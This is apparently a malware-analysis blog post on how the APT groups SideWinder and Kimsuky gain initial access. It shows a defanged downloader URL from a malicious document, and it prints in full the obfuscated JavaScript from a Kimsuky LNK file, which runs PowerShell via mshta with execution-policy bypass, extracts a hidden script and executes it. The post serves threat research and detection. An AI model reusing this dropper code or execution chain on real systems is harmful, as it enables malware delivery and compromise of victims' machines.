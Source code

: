 ```yaml
---
layout: post
title: "Looking into Initial Access Payloads by APT Groups"
date: 2025-02-07
categories: ["Non-PE Malware"]
---
```


## Contents
- Introduction.
- Motivation.
- Technical Analysis
    - Case 1 : Sidewinder using malicious document to drop RTF Payload.
    - Case 2 : Kimsuky using malicious LNK file to drop PowerShell payload.
    - Case 3 : Gamaredon using HTA to drop further malware.
- YARA Rule.
    - Detecting Maldoc.
    - Detecting LNK.
    - Detecting HTA.
- IOCs.
- Limitations.
- MITRE ATT&CK.

## Introduction
![image](https://github.com/user-attachments/assets/b975d5f5-9074-4bd4-b747-efbaaa380ffd)

I recently started learning about maldoc analysis as part of my malware analysis journey. During this process, I explored different APT groups, including SideWinder( 🇮🇳 ), Kimsuky ( 🇰🇵 ) , and Gamaredon ( 🇷🇺 ). I analyzed their samples, focusing on how they gain initial access. To conduct my research, I used platforms like VirusTotal, Twitter, and MalwareBazaar to find and study real-world malware samples.So, I am writing this blog which contains my findings for the same.

## Motivation

My motivation is to explore different areas of malware analysis and gain a deeper understanding of how cyber threats operate. By researching various APT groups, I can learn about different initial access techniques used by attackers. This helps in understanding the diverse ways cybercriminals infiltrate systems. The more APT groups I analyze, the better I can recognize attack patterns and improve threat detection skills. My goal is to continuously expand my knowledge in Malware Analysis and Threat Research.

## Technical Analysis

I wanted to learn about different APT groups and how they execute attacks in the initial phase. So, I collected three malware samples of different APT groups from MalwareBazaar and studied their initial attack methods.

Each group uses a different approach:

- SideWinder delivers a malicious document (Maldoc).
- Kimsuky uses a LNK file.
- Gamaredon deploys an HTA file.

Now, I will analyze these files to understand their attack techniques.

### Case 1 : Sidewinder using malicious document to drop RTF Payload.

During my analysis of an initial phishing attempt, I came across a document file. To examine its internal structure, I used the oleid command, which helped identify that the file contained an external relationship. This indicated that the document might be referencing or attempting to fetch external content.

![image](https://github.com/user-attachments/assets/e758e58b-4572-4da6-9d70-94862601927d)


To dig deeper, I used the `oleobj` command, which revealed that the document was configured to **download an RTF file from an external source**. The URL of this external file was embedded within the document, and the file being fetched was named **profile.rtf**. This suggests that the document was likely being used to execute a second-stage payload, making it a potential **malicious downloader**.

`hxxps://pubad-gov-lk.org-co.net/10472857/Profile.rtf`

Then, after doing some research, I found that this is a **decoy RTF file**, while the actual **RTF payload** had already been removed from the **C2 server**.

For anyone interested in researching further on **how SideWinder targets victims or delivers the actual RTF payload**, you can refer to this [research](https://blog.strikeready.com/blog/rattling-the-cage-of-a-sidewinder/).

### Case 2 : Kimsuky using malicious LNK file to drop PowerShell payload.

In this case, I analyzed an **LNK file** and began by examining its **file structure**. During the analysis, I identified the following **flags**, which I will detail below.

LNK File Structure Analysis :

- **Flags Breakdown**:
    - `HasLinkTargetIDList`: Indicates that the LNK file contains a target ID list, pointing to a specific file or directory.
    - `HasLinkInfo`: Provides additional path information about the target file.
    - `HasArguments`: 
    When `HasArguments` is set, it means the LNK file has extra parameters (Command -line arguments) that will be executed when the shortcut is opened.
    - `EnableTargetMetadata`: Allows retrieving metadata for the target file.
      
- Target Execution Path:
  
  ![image_kimsuky](https://github.com/user-attachments/assets/88a27a9c-a177-4722-a1d2-186294f46347)

- **LinkTargetIDList →** `CLSID_MyComputer\C:\Windows\System32\mshta.exe`
- `mshta.exe` is a legitimate Windows utility, but attackers often misuse it to run **obfuscated JavaScript** for executing hidden **PowerShell commands**. This can download and execute malicious files. This technique falls under **LOLBins**, where trusted Windows utilities are exploited to bypass security detection.

Command-Line Arguments: Embedded JavaScript Execution

The **Command-Line Arguments** field in the LNK file contains **JavaScript code**, which will be executed along with **`mshta.exe`**. This means that when the LNK file is opened, `mshta.exe` will **run the JavaScript code**, potentially executing further malicious scripts.

Extracted JavaScript Code :

After extracting the JavaScript embedded in the LNK file, I obtained the following script:

```jsx
javascript:v=" -Encoding Byte;sc ";
s="a=new Ac"+"tiveXObject('WSc"+"ript.Shell');a.Run(c,0,true);close();";
c="powe"+"rshell -ep bypass -c $t=0x1be8;$k = Get-ChildItem .lnk | where-object {$*.length -eq $t} | Select-Object -ExpandProperty Name;
if($k.count -eq 0){$k=Get-ChildItem $env:T"+"EMP\\\\*.lnk | where-object{$*.length -eq $t};};
$w='c:\\programdata\\d.ps1';
$f=gc $k"+v+"$w ([byte[]]($f | sel"+"ect -Skip 0x094a)) -Force"+v+"c:\\programdata\\b21111 0;
po"+"wersh"+"ell -ep bypass -f $w;";
eval(s);
```
This JavaScript code is trying to run a hidden **PowerShell command** using `mshta.exe`. It does this in several steps:

- The script creates a **WScript.Shell** object, which helps run commands on Windows.
- It then prepares a PowerShell command and executes it.
- The script looks for a **.lnk (shortcut) file** in the current folder.
- If it doesn't find the file, it searches in the **TEMP folder**.
- It checks if the file has a **specific size (7144 bytes)** to make sure it's the correct one.
- The script **reads the contents** of the .lnk file.
- It **skips the first part** of the file (2378 bytes) and extracts **some hidden data**.
- This data is saved as a new **PowerShell script** (`d.ps1`).
- The script **runs `d.ps1` using PowerShell**, which could be another piece of malware.
- It also calls another unknown program (`b21111`), which might be part of the attack.


